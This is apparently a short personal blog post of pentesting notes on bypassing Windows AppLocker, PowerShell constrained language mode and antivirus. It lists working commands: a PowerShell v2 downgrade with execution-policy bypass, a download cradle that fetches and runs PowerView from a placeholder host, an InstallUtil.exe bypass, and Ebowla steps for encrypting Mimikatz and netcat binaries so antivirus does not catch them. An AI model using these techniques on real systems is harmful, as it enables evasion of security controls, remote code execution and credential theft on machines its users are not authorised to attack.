 +++

title = "Windows-Bypass"

+++

I have kept running in applocker and antivirus, and CLM (constrained language mode) I would like to cover some different ways to bypass these restrictions.

If PowerShell version 2 is available you may be able to use this trick.  

```
PowerShell -Version 2 -ExecutionPolicy ByPass -command ""
```

to check for constrained language mode. 

```
$ExecutionContext.SessionState.LanguageMode
```

```
$ExecutionContext.SessionState.LanguageMode = "FullLanguage"
```

```
ie (New-Object Net.WebClient).DownloadString('http://changeme/powerview.ps1')
```

```
[System.Console]::WriteLine("Hello")
```

```
c:\windows\microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U .\meh.exe
```

Bypassing anti virus 

Using, Ebowla to bypass detection, why because anti virus looks for matching code to detect malicious software. You can use encryptions and decoding to evade detection. This for me is a last resort ill spend awhile trying to bypass restrictions. I may upload binaries. 

genetic.config please review 0xdf giddy write up on setting this up. we just need to change somethings and set the computer name as the target

trying to get a payload to work was touchy my objective now is to encode Binary using Ebowla. I typically try to bring both copies a x86 and x64 binaries. 

note: locate mimi*.exe find the x64 version then copy it into Ebowla

```
python ebowla.py binary.exe genetic.config
```

```
./build_x64_go.sh output/go_symmetric_binary_x64.exe.gp bianry.exe
```

![nc-ebowla](https://chickenpwny.github.io/images/bypass/nc-ebowla.PNG)

